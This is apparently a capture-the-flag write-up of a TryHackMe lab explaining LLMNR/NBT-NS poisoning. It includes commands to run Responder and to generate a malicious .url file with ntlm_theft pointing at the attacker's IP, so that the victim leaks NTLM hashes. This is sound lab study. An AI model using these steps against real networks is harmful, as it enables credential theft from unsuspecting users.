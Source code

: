 ## **LLMNR/NBT-NS poisoning**

LLMNR/NBT-NS These are old Windows features used when a computer can't find another one by name.

### Example:

Your Windows tries to access a shared folder `\\fileserver\share`But if it **can’t find "fileserver"**, it asks:

> ❓ "Hey network, who is fileserver?"
> 

Anyone on the network can reply...

So you can use a tool like **Responder** to Trick a user into connecting to our fake server and say:

> 🧑‍💻 "I’m fileserver! Send me your login info!"
> 

Windows believes you and sends you Username and NTLM hash

**Scenario:** In a THM CTF room called **Reset**, I connected to the SMB share **Data** using guest login. I found a folder named **“onboarding”** and noticed that the filenames were changing every few seconds. I assumed there must be an automated process running that modifies these files frequently. Because of this, I decided to try using LLMNR/NBT-NS attacks.

### Step 1: Start Responder

```bash
sudo responder -I tun0
```

- Runs a fake SMB server on your machine
- Waits to catch login attempts

### Step 2: Upload Malicious `.url` File

Using [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) to create a malicious `.url` file.

```bash
python3 ntlm_theft.py -g url -s 10.11.63.57 -f shell
```

- `.url` file points to your IP (`\\YOUR-IP\share`)
- When automatic script opens it, Windows tries to connect to you

### Step 3: Capture the Hash

- Victim’s machine sends their **NTLM hash** to your fake server

**NOTE:** This is another scenario involving LLMNR poisoning. For this attack to work, there must be network traffic generated when a user searches for a name that cannot be resolved. Your machine listens for these requests and responds as the fake server, tricking the user’s computer into connecting to you.
